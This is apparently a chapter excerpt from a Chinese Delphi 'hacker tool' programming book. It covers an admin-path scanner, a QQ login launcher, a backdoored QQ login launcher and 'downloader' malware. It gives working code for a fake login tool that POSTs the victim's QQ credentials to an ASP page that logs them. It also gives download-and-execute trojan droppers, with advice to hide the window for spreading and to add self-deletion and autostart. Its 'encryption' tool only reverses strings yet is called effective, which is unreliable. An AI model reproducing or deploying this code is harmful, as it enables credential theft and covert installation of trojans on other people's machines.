现在，就可以编写程序代码了，程序的流程为先定义一个 CheckUrl 函数，用于获取服务器的返回消息头，如果返回正常，就返回一个真，否则就返回假，然后在扫描按钮的单击事件中添加一个循环，用来调用这个函数去扫描 MEMO 中的每个网页后台地址，如果网页后台地址存在的话，就在右侧的 LISTBOX 组件中显示出来。

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls, ComCtrls, Wininet;

type
```

```pascal
TForm1 = class(TForm)
  Button1: TButton;
  Edit1: TEdit;
  ListBox1: TListBox;
  StatusBar1: TStatusBar;
  Label1: TLabel;
  Button2: TButton;
  Memo1: TMemo;
  OpenDialog1: TOpenDialog;
  procedure Button2Click(Sender: TObject);
  procedure FormCreate(Sender: TObject);
  procedure Button1Click(Sender: TObject);
private
  { Private declarations }
public
  { Public declarations }
end;

var
  Form1: TForm1;
  proc: TProgressBar;   // 全局变量

implementation

{$R *.dfm}

//==================== 判断网址是否存在的函数 ====================
function CheckUrl(url: string; TimeOut: Integer = 5000): Boolean;
var
  hSession, hfile, hRequest, hInternet;
  dwIndex, dwCodeLen: DWORD;
  dwCode: array[1..20] of Char;
  res: PChar;
  re: Integer;
  Err1: Integer;
  j: Integer;
begin
  if Pos('http://', LowerCase(url)) = 0 then
    url := 'http://' + url;
  Result := False;
  InternetSetOption(hSession, INTERNET_OPTION_CONNECT_TIMEOUT, @TimeOut, 4);
  hSession := InternetOpen('Mozilla/4.0', INTERNET_OPEN_TYPE_PRECONFIG, nil, nil, 0);
  // 设置超时
  if Assigned(hSession) then
  begin
    j := 1;
    while True do
    begin
``````pascal
hfile := InternetOpenUrl(hsession, PChar(url), nil, 0, INTERNET_FLAG_RELOAD, 0);
if hfile = nil then
begin
    j := j + 1;
    Err1 := GetLastError;
    if j > 5 then break;
    if (Err1 <> 12002) or (Err1 <> 12152) then break;
    Sleep(2);
end
else
begin
    break;
end;
end;
dwIndex := 0;
dwCodeLen := 10;
HttpQueryInfo(hfile, HTTP_QUERY_STATUS_CODE, @dwCode, dwCodeLen, dwIndex);
res := PChar(@dwCode);
re := StrToIntDef(res, 404);
case re of
    400..450: result := false;   // 如果返回400到500消息头，表示文件不存在
else
    result := true;              // 否则表示文件存在
end;
if Assigned(hfile) then
    InternetCloseHandle(hfile);
InternetCloseHandle(hsession);
end;
end;

procedure TForm1.Button2Click(Sender: TObject);
var
    i: integer;
begin
    for i := 0 to Memo1.Lines.Count - 1 do
    begin
        Application.ProcessMessages;    // 防止程序假死
        proc.Position := i;
        StatusBar1.SimpleText := (Edit1.Text + Memo1.Lines.Strings[i]);
        if checkurl(Edit1.Text + Memo1.Lines.Strings[i]) then   // 调用扫描程序开始扫描
            ListBox1.Items.Add(Edit1.Text + Memo1.Lines.Strings[i]);

        if i = Memo1.Lines.Count - 1 then
            ShowMessage('扫描完毕！');
    end;
end;

procedure TForm1.FormCreate(Sender: TObject);
begin
    proc := TProgressBar.Create(self);    // 创建一个进度条组件
    proc.Parent := StatusBar1;
    proc.Left := StatusBar1.Panels[0].Width + 10;
    proc.Top := 5;
    proc.Height := 25;
    proc.Width := 180; // 一定要有这句，否则PROC的长度为0，也就是不可见了

    proc.Min := 0;
    proc.Max := Memo1.Lines.Count - 1;
    proc.Position := Memo1.Lines.Count - 1;
end;

procedure TForm1.Button1Click(Sender: TObject);
begin
    if OpenDialog1.Execute then
        Memo1.Lines.LoadFromFile(OpenDialog1.FileName); // 载入文件
end;

end.
```

### 4.8.2 程序运行

代码编写完毕后，就可以按 F9 运行程序了，在网址输入框中输入想要查询的网站地址，然后点击“开始扫描”按钮，程序就会自动扫描了，并且会给出扫描的进度提示，如图 4.50。


## 4.9 QQ 登录器

当前，各种网页木马肆虐网络，导致了许多盗号程序和木马进入了用户的电脑中，为了保障我们 QQ 的帐户和密码安全，我们来编写一个 QQ 登录器，以防止盗号木马窃取我们 QQ 的密码。

### 4.9.1 程序编写

程序的界面非常简单，使用到了编辑框组件、按钮组件和 OpenDialog 组件，如图 4.51。由于该程序要使用到 MD5 加密函数，所以还要添加一个 IdHashMessageDigest5 库文件，如图 4.52。为了让 QQ 密码输入框显示的是星号，我们还要修改密码输入框的 PasswordChar 属性为“*”，如图 4.53。


# 第四章 初级黑客工具编写

程序的代码如下：

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls, IdHashMessageDigest5; // MD5

type
  TForm1 = class(TForm)
    Edit1: TEdit;
    Edit2: TEdit;
    Edit3: TEdit;
    Label1: TLabel;
    Label2: TLabel;
    Label3: TLabel;
    Button1: TButton;
    Button2: TButton;
    OpenDialog1: TOpenDialog;
    Label4: TLabel;
    procedure Button1Click(Sender: TObject);
    procedure Button2Click(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

// BASE64 函数
function Base64(Src: string): string;
const
  DataSet = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/';
var
  i, ModLen: integer;
  Current: string;
  Buf: array[1..3] of Byte;
  NewBuf: array[1..4] of Byte;
begin
  result := '';
  if Src = '' then
    exit;

  ModLen := Length(Src) mod 3;
  while Length(Src) > 0 do
  begin
    FillChar(Buf, 3, #0);
    Current := Copy(Src, 1, 3);
    Src := Copy(Src, 4, Length(Src) - 3);
    for i := 1 to 3 do
      Buf[i] := Ord(Current[i]);
    NewBuf[1] := Buf[1] shr 2;
    NewBuf[2] := (Buf[1] shl 6 shr 2 or Buf[2] shr 4) and $3F;
    NewBuf[3] := (Buf[2] shl 4 shr 2 or Buf[3] shr 6) and $3F;
    NewBuf[4] := Buf[3] and $3F;
    for i := 1 to 4 do
      result := result + DataSet[NewBuf[i] + 1];
  end;
  if ModLen >= 1 then
    result[Length(result)] := '=';
  if ModLen = 1 then
    result[Length(result) - 1] := '=';
end;

// 得到登录字符串的函数
function GetCommandLine(QQNum, QQPw: string; QQState: integer): string;
type
  TempChar = array[0..15] of Char;
var
  md5: TIdHashMessageDigest5;
begin
  md5 := TIdHashMessageDigest5.Create;
  result := ' /START QQWIN:' + QQNum + ' /PWDHASH:' + Base64(TempChar(md5.HashValue(QQPw))) + ' /STAT:' + IntToStr(QQState);
  md5.Free;  // 40 隐身登录 41 正常登录
end;

procedure TForm1.Button1Click(Sender: TObject);
begin
  if OpenDialog1.Execute then
    Edit1.Text := OpenDialog1.FileName;
end;

procedure TForm1.Button2Click(Sender: TObject);
begin
  WinExec(PChar(Edit1.Text + ' ' + GetCommandLine(Edit2.Text, Edit3.Text, 40)), SW_NORMAL);
  // 执行登录字符串
end;

end.
```


图 4.53

其中，自定义了一个 Base64 函数，用于实现 BASE64 加密操作，因为 QQ 密码为 MD5 加密再加上 BASE64 加密方式。


### 4.9.2 程序运行

在编写完上面的代码后，就可以生成 EXE 文件或者直接按 F9 运行程序了。程序运行前要首先点击“浏览路径”按钮，找到 QQ.EXE 的文件路径，如图 4.54。在找到 QQ.EXE 的文件路径后，就可以输入 QQ 的帐户和密码，然后点击登录按钮，如图 4.55，就可以实现 QQ 的正常登录了，如图 4.56。

通过这样的方式之所以能够避免盗号木马盗取我们 QQ 的帐户和密码，是因为盗号木马尤其是盗取 QQ 帐户密码的程序，首先会监视 QQ 默认的登录窗口，如果出现了这个窗口，就开始进行键盘记录。我们通过编写一个自己的 QQ 登录窗口，QQ 盗号程序就会由于没有找到 QQ 默认的登录页面，而不会开启键盘记录功能，这样也就逃过了 QQ 盗号程序的监视，保护了我们 QQ 帐户和密码的安全了。


## 4.10 QQ 登录器的后门

由于中国内 QQ 的用户不断增长，导致了很多盗号程序开始大范围流行，于是一些号称可以防止盗号的 QQ 登录器也如雨后春笋般地迅速成长起来，但是这些防止盗号的 QQ 登录器就真的如它们所介绍的那样安全吗？下面我们就从技术的角度来编写一个带有后门的 QQ 登录器，让大家知道其实 QQ 防盗号登录器也不安全的！

### 4.10.1 程序编写

大家可以使用前面章节中所介绍的 QQ 登录器的编写方法先编写出一个登录器，为了不和前面的代码重复，所以我们只编写 QQ 登录器的后门部分，如图 4.57。


程序要实现的功能就是，一旦你输入帐户和密码，然后点击“提交”按钮，你的 QQ 登录信息就会被发送到对方的 ASP 收信系统里。本程序其实就是对 WebBrowser 组件的 POST 方法的利用，使用 WebBrowser 进行 POST 提交必须先将数据格式化为一个 ASCII 码，然后放入到一个数组中。

程序的代码如下：

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, OleCtrls, SHDocVw, StdCtrls;

type
  TForm1 = class(TForm)
    Button1: TButton;
    Edit1: TEdit;
    Edit2: TEdit;
    WebBrowser1: TWebBrowser;
    Label1: TLabel;
    Label2: TLabel;
    procedure Button1Click(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

procedure TForm1.Button1Click(Sender: TObject);
var
  SList: TStringList;
  PostStr: string;
  i: Integer;
  PostData, Headers: OleVariant;
begin
  SList := TStringList.Create;
  try
    SList.Add('http://127.0.0.1:8888/收信.asp'); // WEB服务器的端口为8888，防止和IIS冲突
    PostStr := 'username=' + Edit1.Text;
    PostStr := PostStr + '&password=' + Edit2.Text;
    Headers := 'Content-Type: application/x-www-form-urlencoded' + #10#13; // HTTP消息头
    PostData := VarArrayCreate([0, Length(PostStr) - 1], varByte);
    for i := 0 to Length(PostStr) - 1 do
    begin // 把所有要发送的数据保存为ASCII字节数组，否则无法发送
      PostData[i] := Ord(PostStr[i + 1]);
```

### 4.10.2 程序运行

为了测试这个程序，需要安装 WEB 服务器，因为需要使用 ASP 来收信，我推荐使用小旋风 WEB 服务器，如图 4.58。一路点击“下一步”按钮就可以完成安装了，默认是安装在“C:\Program Files\小旋风AspWebServer”目录，运行小旋风服务器，如果系统弹出了阻止窗口，可以点击“解除阻止”按钮放行，如图 4.59。


程序运行后就会显示在托盘栏中，如图 4.60。我们把如下内容保存到记事本中，并且保存为收信.asp，如图 4.61。


```asp
<%
username=request("username")
password=request("password")
dynpass=request("dynpass")
set fs=server.CreateObject("Scripting.FileSystemObject")
set file=fs.OpenTextFile(server.MapPath("key.txt"),8,True)
file.writeline username+"------"+"----"+password+"----"+"----"+dynpass
file.close
set file=nothing
set fs=nothing
response.write "Send OK!"
%>
```

在上面的准备工作和代码编写完毕后，按 F9 运行程序，在两个输入框中分别输入 QQ 号码和密码，然后点击“提交”按钮，如图 4.62。现在，来到服务端收信.asp 的同一目录下，可以看到已经捕获了刚才输入的 QQ 帐户和密码，如图 4.63。这样，一个带有后门的 QQ 登录器就这样出炉了。

## 4.11 黑客加密解密器

在网络上传输的数据往往会被黑客嗅探和捕获，保存在磁盘上的文件也往往会被其他使用者意外地找到，如何杜绝别人知道我们的隐私信息呢，答案就是对源信息进行加密处理。在本章的最后，我们就介绍如何使用 DELPHI 编写一个加密解密工具。


图 4.62

### 4.11.1 程序编写

程序使用到了三个编辑框和两个按钮，其界面如图 4.64 所示。在摆放好各个组件的位置后就可以编写代码了。程序加密的原理就是拆分编辑框中的字符，然后使用倒序的方式把 ASCII 数据保存到编辑框 2 中，而程序解密的原则和代码加密的原理是可逆的。程序代码如下：


图 4.63

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls;

type
  TForm1 = class(TForm)
    Edit1: TEdit;
    Button1: TButton;
    Edit2: TEdit;
    Button2: TButton;
    Edit3: TEdit;
    procedure Button1Click(Sender: TObject);
    procedure Button2Click(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

//------------------------------加密
procedure TForm1.Button1Click(Sender: TObject);
var
  i: integer;
```

```pascal
s: string;

temp: string;
begin
  s := Edit1.Text;

  for i := Length(Edit1.Text) downto 1 do
  begin
    temp := temp + s[i];
  end;

  Edit2.Text := temp;
end;

//----------------------------------------------解密
procedure TForm1.Button2Click(Sender: TObject);
var
  i: Integer;
  temp, s: string;
begin
  s := Edit2.Text;

  for i := Length(Edit2.Text) downto 1 do
  begin
    temp := temp + s[i];
  end;

  Edit3.Text := temp;
end;

//----------------------------------------------
end.
```

### 4.11.2 程序运行

编写完代码后，按 F9 运行程序，可以在编辑框 1 中输入一些信息，然后点击“加密”按钮，此时编辑框 1 中的内容就被加密，并且显示在编辑框 2 中了，如图 4.65。我们可以通过这个加密功能把一些信息经过加密之后再保存到磁盘上，这样就算是不速之客查看了我们的文件也无法得到正确的信息了，如图 4.66。

而使用我们的这个程序，可以把加密过的代码粘贴到编辑框 2 中，然后点击“解密”按钮就可以实现信息的解密处理了，如图 4.67。


图 4.65

图 4.66

图 4.67

这样，一个简单的加密解密工具就编写完毕了，程序的原理虽然简单，但是加密效果却不俗。有兴趣的读者朋友们可以在此基础上加入一些算法，这样你的加密解密工具就更加专业了，而大家的程序编写技术也就会有更大的提高了！

# 第五章 编写一个“下载者”

对于初学者来说，如果能够把“下载者”的各项技术掌握好，将会对黑客编程的提高有莫大的帮助，因此本章内容就主要介绍了五种下载者的编写技术，涉及到了 API 函数的调用、DLL 文件的编写和调用、控制台程序的编写和 C/S 模式下载者程序的编写等等。通过对于这些丰富多样的技术的探讨，就能够使读者对 DELPHI 的网络编程有更新的理解了。

## 5.1 下载者——普通版

我们首先介绍一个普通的下载者的编写流程，以使读者能够迅速入门下载者的编写，而掌握本节内容也可以为进一步学习下载者编程打下更坚实的基础。

### 5.1.1 原理分析

黑客通常都会在个人网站放上自己的木马文件，先简单地教大家如何快速搭建自己的 WEB 服务器。我们使用小旋风 AspWebServer 服务器就可以快速搭建，双击安装文件后，基本上一路点击“下一步”，就可以完成安装了，如图 5.1。安装完成后，程序就会在桌面右下角的任务栏显示出托盘图标了，如图 5.2。


程序是默认安装在“C:\Program Files\小旋风 AspWebServer”目录下的，为了使用方便，我们可以把木马文件直接存放到“C:\Program Files\小旋风 AspWebServer\wwwroot”这个目录下，这样木马的网络访问地址就是 http://127.0.0.1/mm.exe 了，其中“127.0.0.1”也可以更换为你的外网 IP 地址，这样别人通过互联网就能访问到这个木马了，如图 5.3。

我们上传一个配置好的木马到“C:\Program Files\小旋风 AspWebServer\wwwroot”目录后，打开 IE 浏览器访问“http://127.0.0.1/mm.exe”这个地址，就会弹出文件下载对话框，如图 5.4。


下载者的编写技术主要涉及到了一个 API 下载函数的使用——URLDownloadToFile。在使用这个函数前需要先引用 URLMON 库，因为在 URLMON 库中对 URLDownloadToFile 函数进行了定义。引用 URLMON 库的方法是在 DELPHI 的代码编辑窗口的 uses 语句后添加 URLMON 语句“uses UrlMon;”。下面定义一个下载函数，其实现的功能为：下载成功就返回真，下载失败就返回假，代码如下：

```pascal
function DownloadFile(Source, Dest: string): Boolean;
begin
  try    // 使用 TRY 语句防止程序出错
    Result := UrlDownloadToFile(nil, PChar(Source), PChar(Dest), 0, nil);
    // 如果函数为 0，Result 就返回真
  except
    Result := False;    // 如果下载失败，返回假
  end;
end;
```


在 DELPHI 中添加一个按钮，然后双击这个按钮来到代码编辑窗口，输入以下的代码，调用上面的下载函数实现对文件的下载，代码如下：

```pascal
procedure TForm1.Button1Click(Sender: TObject);
begin
  if DownloadFile('http://127.0.0.1/mm.exe', 'c:\abc.exe') then    // 如果返回真
    ShowMessage('Download successful')
  else    // 如果返回假
    ShowMessage('Download unsuccessful');
end;
```


最后，按 F9 运行程序，可以看到下载成功的提示了，如图 5.5。


### 5.1.2 程序编写

经过上面对下载函数 URLDownloadToFile 的介绍后，接下来我们就开始下载者的程序编写。首先打开 DELPHI，此时会自动生成一个窗口，为了演示的方便这里添加了一个标签组件，并且修改其 Caption 属性为“下载者”，如图 5.6。

双击这个窗口就自动来到了代码编辑窗口，在代码编辑窗口中的 uses 语句后加入“URLMON”。之所以要加入这个库的引用，是因为本处下载者的编写使用到了 URLDownloadToFile 函数，而这个函数在 URLMON 中被声明过，所以要使用这个函数就要调用这个库文件，如图 5.7。

我们把程序的工作流程整理一下，下载者的工作流程为：首先下载网络文件，然后保存到本地并且执行。要实现下载网络文件可以使用到前面介绍过的 URLMON 库中的 URLDownloadToFile 函数；要执行下载的文件，则可以使用 WinExec 函数。这个函数有两个参数，第一个参数是要执行的文件地址，第二个参数是执行文件的方式，比如隐藏执行或是正常执行等。程序的全部代码如下：

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, URLMON, StdCtrls;
// 需要调用 URLMON 中的 URLDownloadToFile

type
  TForm1 = class(TForm)
    Label1: TLabel;
    procedure FormCreate(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

procedure TForm1.FormCreate(Sender: TObject);
begin
  // Form1.Visible := False;
  // Application.ShowMainForm := False;
  // 正式编译运行时，可以调用上面两句，以增加下载者的隐藏性

  URLDownloadToFile(nil, PChar('http://127.0.0.1/mm.exe'), PChar('c:\mm.exe'), 0, nil);
  // 首先下载文件，并且保存到 C 盘下
  WinExec(PChar('c:\mm.exe'), SW_NORMAL);
  // 然后使用 WinExec 函数执行下载后的文件，这里使用的是正常方式执行文件
end;

end.
```


图 5.8

### 5.1.3 程序运行

程序编写完毕后，按 F9 运行，可以看到在下载者运行后，马上下载网络木马文件到本地 C 盘下，并且把网络木马保存为 MM.EXE 文件，最后运行了这个木马文件，如图 5.8。

这里为了演示下载者的运行，所以注释掉了窗口隐藏的代码。如果想正式编译和传播这个下载者程序，就需要把开头的两段代码的注释符号去掉，如下：

```pascal
Form1.Visible := False;
Application.ShowMainForm := False;
```

经过这样设置后，当下载者再次运行时就不会显示窗口了，也就增加了下载者的隐蔽性。

## 5.2 下载者——DLL 版

在掌握了普通的下载者程序的编写后，有此基础上，就可以进行 DLL 版本的下载者的编写了。DLL 就是动态链接库文件的意思，通过把重复功能的函数和过程写成一个 DLL 文件，就可以提供给其它程序调用，这样可以减少代码的重复性，提高了编程的效率。

### 5.2.1 原理分析

要想编写 DLL 版的下载者程序，就要编写两个文件，一个是 DLL 文件，一个是调用程序。编写 DLL 文件的作用主要是提供给调用程序调用自身内部的函数或者过程。在 DELPHI 中定义函数的形式如下，其中 StdCall 表示可以让不同语言调用，比如使用 DELPHI 编写的 DLL 文件，如果也想让 VC++ 或者 VB 调用，那么就需要添加这句 StdCall 语句：

```pascal
Function 函数名(参数1：数据类型；参数2：数据类型…): 返回值类型; StdCall;
Begin
  // 在这里编写这个函数要执行的代码；
End;
```

定义过程的方法如下：

```pascal
Procedure 过程名(参数1：数据类型；参数2：数据类型…); StdCall;
Begin
  // 在这里编写这个过程要执行的代码；
End;
```


编写完毕函数和过程后，为了把这个函数或者过程对外开放，也就是外部能够访问到 DLL 文件内部的函数和过程，还需要使用到输出函数和过程，方法为“exports 过程或者函数名 [name 名称标识符];”。现在这个 DLL 文件的编写步骤就完成了。编写完 DLL 文件后，就可以通过 DELPHI 的编译功能生成一个 DLL 文件，然后提供给其它程序调用了。

接着就是编写调用程序了。要调用 DLL 文件中的函数和过程，就要先对 DLL 中的函数和过程进行声明，声明方式如下：

```pascal
Function 函数名(参数列表): 数据类型; stdcall; external 'dll库的名字' name '别名';
Procedure 函数名(参数列表); stdcall; external 'dll库的名字' name '别名';
```

本小节详细描述了 DLL 文件和调用文件的编写流程，在下一节中，我们就介绍如何具体地编写 DLL 版本的下载者。

### 5.2.2 DLL 代码的编写

编写 DLL 版本的下载者可以分为两个步骤，一个是编写 DLL 文件，一个是编写调用这个 DLL 文件的调用程序，我们先来编写 DLL 文件。在 DELPHI 中编写 DLL 文件的方法为：点击“File”菜单下的“New”，然后选择“Other”，如图 5.9。


这时，就会弹出一个“New Items”窗口，选择其中的“DLL Wizard”选项，如图 5.10，然后点击“OK”按钮，就会自动定位到代码编辑窗口了（DLL 文件的编写环境没有窗口文件），如图 5.11。

窗口中默认会生成一些代码，这些是编写一个 DLL 文件的框架代码，我们要编写 DLL 文件就是在这个框架上进行代码的增加和修改。

```pascal
library Project2;

{ Important note about DLL memory management: ShareMem must be the
  first unit in your library's USES clause AND your project's (select
  Project-View Source) USES clause if your DLL exports any procedures or
  functions that pass strings as parameters or function results. This
  applies to all strings passed to and from your DLL—even those that
  are nested in records and classes. ShareMem is the interface unit to
  the BORLNDMM.DLL shared memory manager, which must be deployed along
  with your DLL. To avoid using BORLNDMM.DLL, pass string information
  using PChar or ShortString parameters. }

uses
  SysUtils,
  Classes;

{$R *.res}

begin
end.
```


我们来整理一下编写流程，要使用到两个函数：一个是 URLDownloadToFile 函数（用来下载文件），一个是 WinExec 函数（用来执行下载完毕的文件）。为了使用这两个函数，需要先在 uses 语句后添加声明这两个函数的库文件，分别是 URLMON 和 WINDOWS，如图 5.12。

现在来添加一个过程代码，用来实现下载功能，过程名称为 down()，并且有两个参数，一个是要下载的文件地址，另一个是下载保存后的文件路径。编写完过程后，为了能让外部的程序访问到这个过程，还要在代码中添加 exports 声明，最终代码如下：

```pascal
library Project2;

{ Important note about DLL memory management: ShareMem must be the
  first unit in your library's USES clause AND your project's (select
  Project-View Source) USES clause if your DLL exports any procedures or
  functions that pass strings as parameters or function results. This
  applies to all strings passed to and from your DLL—even those that
  are nested in records and classes. ShareMem is the interface unit to
  the BORLNDMM.DLL shared memory manager, which must be deployed along
  with your DLL. To avoid using BORLNDMM.DLL, pass string information
  using PChar or ShortString parameters. }

uses
  SysUtils,
  Classes,
  UrlMon,   // URLMON 还是手工加入
  Windows;  // 为了使用 WinExec 函数，这里要加入 WINDOWS

{$R *.res}

procedure down(p1, p2: PChar); stdcall; // 手工写入“自定义的过程; StdCall”，表示可以让外部正常调用
begin
  URLDownloadToFile(nil, p1, p2, 0, nil);
  WinExec(p2, SW_NORMAL);
end;

exports    // 手工写入 exports，表示输出函数
  down;

begin
  // DLL 主线程执行的代码，这里可以不写任何代码
end.
```


这样，这个 DLL 文件就编写完毕了。编写完 DLL 文件后，就可以生成了，选择 DELPHI 编译器中“Project”菜单下的“Build All Projects”，就会在保存工程文件的目录生成 DLL 文件（生成的文件路径可以在“Options”菜单中进行设置），如图 5.13。最终，生成的 DLL 文件如图 5.14 所示。


### 5.2.3 调用程序代码编写

首先给出调用程序的主界面，程序只有一个 Button 按钮，如图 5.15。要实现对 DLL 文件的调用，可以分成两个步骤，第一步要声明 DLL 文件中的函数和过程，第二步是对函数和过程进行调用。具体的实现代码如下：

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes,
  Graphics, Controls, Forms,
  Dialogs, StdCtrls;

type
  TForm1 = class(TForm)
```

```pascal
Button1: TButton;
procedure Button1Click(Sender: TObject);
private
  { Private declarations }
public
  { Public declarations }
end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

procedure down(p1, p2: PChar); stdcall; external 'project2.dll';  // DLL函数声明

procedure TForm1.Button1Click(Sender: TObject);
begin
  down(PChar('http://127.0.0.1/mm.exe'), PChar('c:\down_and_run.exe'));  // 调用DLL中的函数，进行下载运行
end;

end.
```

图 5.16

这样，就顺利完成了 DLL 文件和调用程序的编写了。

### 5.2.4 程序运行

在完成 DLL 文件和调用程序的编写后，就可以运行程序来查看效果了。在运行调用程序前，如果没有把 PROJECT2.DLL 这个 DLL 文件放到调用程序的当前目录下，就会弹出如下所示的对话框（因为在调用 DLL 文件时，没有指定 DLL 文件的磁盘路径，所以程序默认 DLL 文件是在调用程序的当前目录，如果 DLL 文件不在调用程序目录，就会搜索 SYSTEM32 目录下是否有要调用的 DLL 文件），并且提示没有找到 PROJECT2.DLL 文件，如图 5.16。

图 5.17

我们只要把 PROJECT2.DLL 文件复制到调用程序的当前目录下或者 SYSTEM32 目录下，再次运行调用程序，当点击“调用DLL文件进行下载”的按钮后，可以看到调用 DLL 文件运行了，实现了下载者的目的，如图 5.17。来到 C 盘根目录下，可以看到被下载到磁盘中的木马文件 DOWN_AND_RUN.EXE，如图 5.18。

图 5.18

现在就完成了一个 DLL 版本的下载者的编写了，各位读者可以在此基础上完善这个下载者的功能，比如实现感染 HTML 页面、自删除、自动启动等等功能，这样我们就可以编写出一个功能强大而且实用的 DLL 文件了。

## 5.3 下载者——8KB版

前面所编写的下载者程序，细心的读者可能都会发现程序的体积比较大，基本上都是 300 多 KB，本节内容我们就介绍如何使用 DELPHI 编写小体积的程序，因为只有体积变小了，才是一个好的下载者程序。

### 5.3.1 原理分析

为了实现程序体积的最小化，这里就不能使用 WINEXEC 函数来执行下载后的木马文件了，因为要使用 WINEXEC 函数，就要带上 WINDOWS 库，但 WINDOWS 库是非常大的，所以我们选择使用一个 API 函数 SHELLEXECUTE 来执行下载后的文件，这样就可以实现体积最小化了。

ShellExecute 的作用是运行一个外部程序（或者打开一个已注册的文件、打开一个目录、打印一个文件等等，并对外部程序有一定的控制），其函数原型如下：

```pascal
HINSTANCE ShellExecute(
    HWND hwnd,
    LPCTSTR lpOperation,
    LPCTSTR lpFile,
    LPCTSTR lpParameters,
    LPCTSTR lpDirectory,
    INT nShowCmd
);
```

**ShellExecute 参数说明如下：**

- **hwnd**：用于指定父窗口句柄，当函数调用过程出现错误时，它将作为 Windows 消息窗口的父窗口。
- **lpOperation**：用于指定要进行的操作。“open”操作表示执行由 lpFile 参数指定的程序，或打开由 lpFile 参数指定的文件或文件夹；“print”操作表示打印由 lpFile 参数指定的文件；“explore”操作表示浏览由 lpFile 参数指定的文件夹。当参数设置为 NULL 时，表示执行默认操作“open”。
- **lpFile**：用于指定要打开的文件名、要执行的程序文件名或要浏览的文件夹名。
- **lpParameters**：若 lpFile 参数是一个可执行程序，则此参数指定命令行参数，否则此参数应为 NULL。
- **lpDirectory**：用于指定默认目录。
- **nShowCmd**：若 lpFile 参数是一个可执行程序，则此参数指定程序窗口的初始显示方式，否则此参数应设置为 0。

**ShellExecute 参数常用的常数如下：**

- `SW_HIDE`：隐藏窗口，活动状态给另一个窗口
- `SW_MINIMIZE`：最小化窗口，活动状态给另一个窗口
- `SW_RESTORE`：使用原来的大小和位置显示一个窗口，同时令其进入活动状态
- `SW_SHOW`：使用当前的大小和位置显示一个窗口，同时令其进入活动状态
- `SW_SHOWMAXIMIZED`：最大化窗口，并将其激活
- `SW_SHOWMINIMIZED`：最小化窗口，并将其激活
- `SW_SHOWMINNOACTIVE`：最小化一个窗口，同时不改变活动窗口
- `SW_SHOWNA`：使用当前的大小和位置显示一个窗口，不改变活动窗口
- `SW_SHOWNOACTIVATE`：使用最近的大小和位置显示一个窗口，同时不改变活动窗口
- `SW_SHOWNORMAL`：与 `SW_RESTORE` 相同

如果 ShellExecute 函数调用成功，则返回值为被执行程序的实例句柄，如果返回值小于 32，则表示出现错误。

### 具体用法：

- 1、这个函数能打开任何文件，甚至是桌面和 URL 快捷方式（.lnk 或 .url）。ShellExecute 解析系统注册表 HKEY_CLASSES_ROOT 中所有的内容，判断启动哪一个执行程序，并且启动一个新的实例或使用 DDE 将文件名连到一个打开的实例，然后 ShellExecute 返回打开文件的应用实例句柄。比如打开一个叫 iloveu.bmp 的位图文件，用法为 `ShellExecute(Handle, 'open', 'c:\iloveu.bmp', nil, nil, SW_SHOWNORMAL);`。
- 2、可以打开 Web 网页，当 ShellExecute 遇到文件名前的“http:”时，可以判断出要打开的文件是 Web 文件，随之启动 IE 或者 Netscape Navigator 或者别的浏览器来打开文件。比如打开网页 `http://hi.baidu.com/PESPIN`，用法为 `ShellExecute(Handle, 'open', 'http://hi.baidu.com/yueyun880', nil, nil, SW_SHOWNORMAL);`。
- 3、ShellExecute 还能识别其它协议，诸如 FTP、GOPHER 等，甚至是识别 mailto。如果文件名指向“mailto:pespin@163.com”，它就将启动电子邮件程序（Windows Outlook 等）并打开一个新的待编辑邮件。比如打开一封新邮件，新邮件的收件人为“mailto:pespin@163.com”，用法为 `ShellExecute(Handle, 'open', 'mailto:Yun_Yue@intra.asus.com', nil, nil, SW_SHOWNORMAL);`。当然，我们还可以指定多个收件人，用法为 `ShellExecute(Handle, 'open', 'mailto:Yun_Yue@intra.asus.com;Allen_Niu@intra.asus.com', nil, nil, SW_SHOWNORMAL);`。
- 4、打开一个新的应用程序，用法为 `ShellExecute(Handle, 'open', PChar('c:\test\app.exe'), nil, nil, SW_SHOW);`。
- 5、打印记事本，并打开一个文件（系统能识别记事本应用程序的路径，因此不需要使用绝对路径），用法为 `ShellExecute(Handle, 'print', PChar('c:\test\test.doc'), nil, nil, SW_SHOW);`。注意，大家可能会看到 Word 暂时被打开了，但它会自动关闭。
- 6、使用 Windows Explorer 打开一个目录，用法为 `ShellExecute(Handle, 'explore', PChar('c:\windows'), nil, nil, SW_SHOW);`。
- 7、运行一个 DOS 命令并立即返回，用法为 `ShellExecute(Handle, 'open', PChar('command.com'), PChar('/c copy file1.txt file2.txt'), nil, SW_SHOW);`。
- 8、运行一个 DOS 命令并保持 DOS 窗口存在，用法为 `ShellExecute(Handle, 'open', PChar('command.com'), '/k dir', nil, SW_SHOW);`。

### 5.3.2 程序编写

要编写这个只有 8KB 的下载者，首先需要新建一个工程，选择“File”菜单“New”下的“Application”，如图 5.19。在新建的工程窗口中找到那个减号按钮，如图 5.20，点击减号按钮，删除单元文件，也就是删除掉窗体文件，选择“UNIT1”，然后点击“Ok”按钮删除窗体文件，如图 5.21。

图 5.21

图 5.22

图 5.23

图 5.24

